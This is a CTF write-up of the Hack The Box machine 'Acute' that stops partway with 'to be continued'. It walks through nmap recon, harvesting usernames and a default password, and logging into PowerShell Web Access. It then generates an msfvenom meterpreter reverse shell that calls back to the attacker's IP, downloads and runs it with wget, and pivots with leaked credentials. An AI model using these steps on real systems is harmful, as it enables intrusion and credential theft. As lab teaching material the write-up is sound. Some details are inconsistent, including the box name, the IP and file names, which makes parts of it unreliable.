


# Acute HTB | 0xwerz | 03/06/22 
### The official [box page](https://app.hackthebox.com/machines/Undetected) on HTB 
<p align="center">

</p>


### The writeup:
#### System Scan | **IP: 110.10.11.145**
as usual let's add the ip to to the `/etc/hosts` file and name it `acute.htb`
> `echo '10.10.11.145    undetected.htb ' >> /etc/hosts`

startup a nmap scan | **-sC for the default set of scripts**. | **-sV for Enables version detection**. | **-T4 for sending the traffic fast**.
>`nmap -sC -sV -T4 10.10.11.145`
```
werz@ctf01:~/ctf/htb/acute$ nmap -sC -sV -T4 10.10.11.145 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-03 01:58 CET
Nmap scan report for acute.htb (10.10.11.145)
Host is up (0.28s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=atsserver.acute.local
| Subject Alternative Name: DNS:atsserver.acute.local, DNS:atsserver
| Not valid before: 2022-01-06T06:34:58
|_Not valid after:  2030-01-04T06:34:58
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2022-07-21T00:58:43+00:00; -1s from scanner time.
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.73 seconds
```

## Open Ports
|Ports|Service|Takeaways|
|------|-----|-----|
|443|ssl/http| Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

So with have a single http/ssl port open and visiting `https://10.10.11.145` returns 404 that strange, there is a certificate with the name `atsserver.acute.local`. I’ll add that to the `/etc/hosts` file:

> echo 10.10.11.145     atsserver.acute.local

so we got a hit back on `https://atsserver.acute.local/`


### Web page enumeration

The about page may have some useful usernames under the `who we work with` headline.


save them on a file list we may need them:
```
Awallace
Chall
Edavies
Imonks
Jmorgan
Lhopkins
```
```bash
echo "Awallace\nChall\nEdavies\nImonks\nJmorgan\nLhopkins" > users.enum
```

we also have a doc file:


let's take a look
,there is a bunch of information.
- two links for staff inducation pages both returns 404
- there is a interesting section `IT overview` that gives a default password `Password1!`, and even mentions that some staff are not changing it:

    

we also have a windows PowerShell Web Access (PWSA) in the `Induction meetings with management staff` section:


that goes to `https://atsserver.acute.local/Acute_Staff_Access`

if we check the metadata for the doc file we catch up in the description a hostname `Acute-PC01` that may be created in and the creator name `FCastle` and last the modified by `Daniel`

let's give all these information we got a try to login on that web powershell.

After some blind trys we got a valind request:


and we are in as edavies!


this web console is a bit of pain,`winpeas` is messed up, I'll generate a meterpreter shell

### Generaing meterpreter payload
```bash
werz@ctf01:~/ctf/htb/acute$ msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=9001 LHOST=10.10.14.141 -f exe -o shell.exe
```
We need the metasploit console, also the options configuration: 

for running metasploit console use:
> msfconsole

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.10.14.141
msf6 exploit(multi/handler) >
```

### Uploading the reverse shell

I'll setup a python webserver:
> python3 -m http.server 8080


we have no access to write for most of the directories, but we can in `C:\Utils>`

```powershell
PS C:\Utils> wget 10.10.14.141:8080/shell.exe -outfile rev.exe
```
Now we should run the meterpreter listener, after that execute the exe file:

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.141:9001
```

web powershel console:

```powershell
PS C:\Utils> .\rev.exe
```

and we got a hit back:

```bash
[*] Sending stage (200774 bytes) to 10.10.11.145
[*] Meterpreter session 1 opened (10.10.14.141:9001 -> 10.10.11.145:49857) at 2022-07-24 17:39:49 +0000

meterpreter >
```
type shell to switch.
> meterpreter > shell

### imonk on ATSSERVER
```powershell
PS C:\Utils> ipconfig
windows IP Configuration

Ethernet adapter Ethernet 2:
    Connection-specific DNS suffix  . :
    Link-local IPv6 Address . . . . . : fe80::9513:4361:23ec:64fd%14
    Subnet Mask . . . . . . . . . . . : 255.255.255.0
    Default Gateway . . . . . . . . . : 172.16.22.1
    . .
```
The gateway is likely the host.

After a bit of manual enumeration I didn't reach anything, it's time for [Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
while running it I noticed a RDP session active.

well, meterpreter have a active **screenshare** options I'll give it a try.
you'll see a the desktop front for a while, after that a Powershell terminal opens as edavies following to create a credential object, and uses it to connect to the atsserver machine as the imonks user with the password leaked:



I’ll create a credential object also:
```powershell
PS C:\Utils> $pass = ConvertTo-securestring "W3_4R3th3_f0rce." -AsPlainText -Force
PS C:\Utils> $cred = New-object System.Management.Automation.PScredential("ACUTE\imonks", $pass)
```
if i try to spawn a PSsesion it rejects it (access denied)

It’s possible that imonks is only allowed to connect with the `dc_manage` config that shows in the image . Specifying that gives a different error message (The term 'Measure-Object' is not recognized as the name of cmdlet)
I assume that it fails because the user imonks doesn't have access to the `Measure-Object` cmdlet. This could be an issue with the `dc_manage` conf

we can use the `Invoke-Command` this should work

and yes! it is
```powershell
PS C:\Utils> Invoke-Command -ScriptBlock {whoami} -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
acute\imonks
```
we can get the user flag now

```powershell
PS C:\Utils> Invoke-Command -ScriptBlock { cat C:\users\imonks\desktop\user.txt } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```
we also can see a file beside the flag file on imonks desktop `vm.ps1` that look suspicious:

```powershell
PS C:\Utils> Invoke-Command -ScriptBlock { ls C:\users\imonks\desktop} -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    Directory: C:\Users\imonks\desktop
 Mode               LastWriteTime       Length Name
 ----               -------------       ------ ----             
 -ar---     05/06/2022      22:16           34 user.txt
 -a----     11/01/2022      18:04          602 wm.ps1
```

it got creds for jmorgan on Acute-PC01:

```powershell
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```
to be continued...